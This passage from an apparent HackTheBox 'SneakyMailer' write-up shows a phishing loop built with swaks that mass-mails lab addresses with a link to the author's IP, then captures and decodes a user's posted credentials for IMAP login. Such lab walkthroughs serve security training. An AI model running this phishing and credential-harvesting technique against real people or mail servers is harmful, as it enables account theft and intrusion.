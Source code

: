 From there, I took the email list above, ran it through sed and ensured that all emails were on a single line using the following command:

```bat
sed 's/,/\n/g' msf_list.lst > msf.lst
```

### Phishing Attack using Swaks

Swaks is a featureful, flexible, scriptable, transaction-oriented SMTP test tool which can be found at the following URL: <https://jetmore.org/john/code/swaks/>. In order to make use of this tool, I went on the assumption that it would need to return data to you so I needed to ensure that whatever email I sent to the machine, I was able to receive data. 

During the initial exploit, I inserted the IP address of my host in both the Subject and Body fields since I didn't know which parameter the host would look at. From there I iterated through each email address identified above and sent an email to them using the following command:

```bat
while read email_list; do swaks -to  $email_list -from root -header "Subject: http://10.10.14.115" –body "http://10.10.14.115" -server 10.10.10.197; done < msf.lst
```

While looping through the email addresses, I ran a netcat server on my local machine to determine if any connection would be returned from the phishing email above. You could also make use of the `-k` flag to keep the connection open, however for this exploit we did not need the flag. After waiting for a few seconds, a netcat session was returned to us including information for a user: `paul bard`, the output is shown below:

<details></details>

Using the information shown above, I placed the URL encoded block into CyberChef -- however burpsuite or any other URL decoder would have worked. If you would like to see the original query and information returned via CyberChef, the URL is as follows: 

```
http://icyberchef.com/#recipe=URL_Decode()&input=Zmlyc3ROYW1lPVBhdWwmbGFzdE5hbWU9QnlyZCZlbWFpbD1wYXVsYnlyZCU0MHNuZWFreW1haWxlci5odGImcGFzc3dvcmQ9JTVFJTI4JTIzSiU0MFNrRnYyJTVCJTI1S2hJeEtrJTI4SnUlNjBocWNIbCUzQyUzQUh0JnJwYXNzd29yZD0lNUUlMjglMjNKJTQwU2tGdjIlNUIlMjVLaEl4S2slMjhKdSU2MGhxY0hsJTNDJTNBSHQ
```

The decoded output is provided below:

```bat
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

## Interacting with IMAP
Now that we have a username, password combination for a user, we can begin enumeration of the host. Since the web application did not have any login functionality and the credentials didn't work for FTP or SSH, I decided to look into the other open ports on the server, namely the IMAP ports. In order to interact with IMAP using authentication, you need to encode the credentials using Base64. In order to encode the credentials, I used the following commands:

```bat
vagrant@ko:~/Desktop/HackTheBox/SneakyMailer$ echo -n "paulbyrd" | base64
cGF1bGJ5cmQ=

vagrant@ko:~/Desktop/HackTheBox/SneakyMailer$ echo -n "^(#J@SkFv2[%KhIxKk(Ju\`hqcHl<:Ht" | base64
XigjSkBTa0Z2MlslS2hJeEtrKEp1YGhxY0hsPDpIdA==
```
